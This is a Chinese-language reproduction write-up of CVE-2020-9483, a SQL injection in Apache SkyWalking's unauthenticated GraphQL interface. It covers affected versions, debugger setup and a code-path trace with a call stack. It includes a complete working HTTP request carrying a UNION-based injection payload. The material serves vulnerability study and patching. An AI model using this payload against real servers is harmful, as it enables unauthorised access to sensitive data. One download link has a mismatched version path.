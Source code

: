 # Apache SkyWalking 7.0.0 graphql SQL注入漏洞 CVE-2020-9483

## 漏洞描述

腾讯安全威胁情报中心监测到Apache SkyWalking发布更新，修复了一个SQL注入漏洞（编号：CVE-2020-9483）。远程攻击者可通过Apache SkyWalking默认开放的未授权GraphQL接口构造恶意请求包进行注入攻击，成功利用此漏洞可造成敏感数据泄漏。该漏洞等级为高危，腾讯安全专家建议相关企业尽快修复。

## 环境搭建

https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz

https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz

## 漏洞影响

```
Apache SkyWalking 6.0.0~6.6.0
Apache SkyWalking 7.0.0
```

## 漏洞复现

下载编译好的源码后，进入bin目录，修改 oapService.sh 通过IDEA进行远程调试

```
for i in "$OAP_HOME"/oap-libs/*.jar
do
    CLASSPATH="$i:$CLASSPATH"
done

OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"

eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
        2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"

if [ $? -eq 0 ]; then
    sleep 1
	echo "SkyWalking OAP started successfully!"
else
	echo "SkyWalking OAP started failure!"
	exit 1
```

配置IDEA JVM Debug

![](images/202205251616557.png)

查看CVE的修复commit寻找修复的地方

![](images/202205251616973.png)

打下断点并发送Payload请求包

```
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416

{
    "query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) {  values { value } }}",
    "variables": {
        "duration": {
            "end": "2020-08-07 1418",
            "start": "2020-08-07 1417",
            "step": "MINUTE"
        }
    }
}
```

![](images/202205251617073.png)

在 org.apache.skywalking.oap.query.graphql.resolver 中我们可以看到参数 metrics.getId() 没有过滤就直接传入 getLinearIntValues

![](images/202205251617628.png)

跟随来到 org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96)

![](images/202205251617333.png)

来到 org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117)，这里就将拼接的语句带入数据库进行查询，造成SQL注入

![](images/202205251617486.png)

调用栈如下

```
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
```